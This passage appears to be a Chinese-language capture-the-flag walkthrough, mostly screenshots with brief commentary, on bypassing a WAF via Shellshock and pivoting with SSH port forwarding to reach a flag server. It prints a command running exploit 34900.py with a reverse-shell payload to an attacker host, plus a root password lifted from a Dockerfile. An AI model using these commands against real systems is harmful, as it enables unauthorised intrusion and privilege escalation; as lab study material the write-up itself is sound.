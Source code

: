 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/4yo5kHOX9ibN8ibibPy7W2Hr5gIiaWyWEuIGKPDgfhHf0oA2dpjKy7LLyBHicoTtfRED9OyIK92hpd9GhGqx3iaLln2A/640?wx_fmt=png)

利用 EXP 直接绕过 WAF 提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoU4ojoY5UCOdHRMezu7iaQtsevugUTMibIXLGjGI4zJm2QIdpPwu6zvB9w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUH7G1wdjibjeypQmWZbtAznmJwRYN38brxkH4YpdN5vQPiasHia8EvPrQA/640?wx_fmt=png)

测试发现是存在可内部利用 Shellshock 漏洞...

为了避免受到保护，直接从此容器发起攻击即可，该容器可以通过另一个子网完全绕过 waf...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUiaYNMwW8kACCDUlAK9TPR0cThj3ztRoVrKRCriang3tyhxIoSibogEYNg/640?wx_fmt=png)

```
python 34900.py  payload=reverse rhost=172.24.0.2 lhost=172.24.0.253 lport=1234 pages=/cgi-bin/stats
```

利用 Shellshock 漏洞可执行的 34900_EXP 进行提权... 成功绕过进入了... 获得了 www-data 权限... 但这不是一个稳定的外壳...

目前信息收集中拥有 Dockerfile 中的密码 root:Ib3!kTEvYw6*P7s，因此我们所要做的就是生成一个 tty，直接就可以使用 su 进行 root 升级....

这里可以利用 MSF 的 web_delivery 生成 tty，获得别的方式... 自行尝试....

后续提权方法在方法 2 中演示...

![](https://mmbiz.qpic.cn/mmbiz_png/vekKnDibcricu2UWZUgqzbqic9EBkejl6uTaAp9pZqTSiaibKPpbJamzHXyE2iapH87vjcQHV7hz25QFcBibaMpyadLqg/640?wx_fmt=png)

方法 2：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/4yo5kHOX9ibN8ibibPy7W2Hr5gIiaWyWEuIGKPDgfhHf0oA2dpjKy7LLyBHicoTtfRED9OyIK92hpd9GhGqx3iaLln2A/640?wx_fmt=png)

远程端口转发提权....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoU2eHicibq6acnkAibrsWefLJ34bHicpkAqBkQ7ibtCP2rJCaXgL7Qibj7LtLg/640?wx_fmt=png)

利用 - L 和 - R 进行端口转发....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUXBDFNjFiakz4bO0aUCgtNTR8QtMeiaQIjv1nBQGJU6kdBJPXFEpN5NxQ/640?wx_fmt=png)

可看到本地存在 22 端口...

这里只需利用 ssh 将 8888 在 kali 上启动，当从 kali 链接 8888 端口时，该链接就会转向堡垒机的 22 端口...

可看到成功端口转发 8888 端口到 22...

然后进行 `ssh -p 8888 -i id_rsa 127.0.0.1` 成功本地登陆...

我们知道存在真实 flag 的服务器 IP 是 172.24.0.2:80 上... 继续建桥

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUeicX5sDfk19hjTrR3hmA9zVfLiaOiaZosOzO7yQrj8WjYia6z9hSWCIMOQ/640?wx_fmt=png)

继续将 9999 端口转发到 80，可看到本地已监听...

前面通过本地 8888 转发到堡垒 22，现在将本地 9999 转发到真实服务 80 上.... 测试下

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUI3lXNeGzDYWxm9Hs473rs2fKOC4QwBcH7VTHa6IQ4pXOu2bpYiaENxg/640?wx_fmt=png)
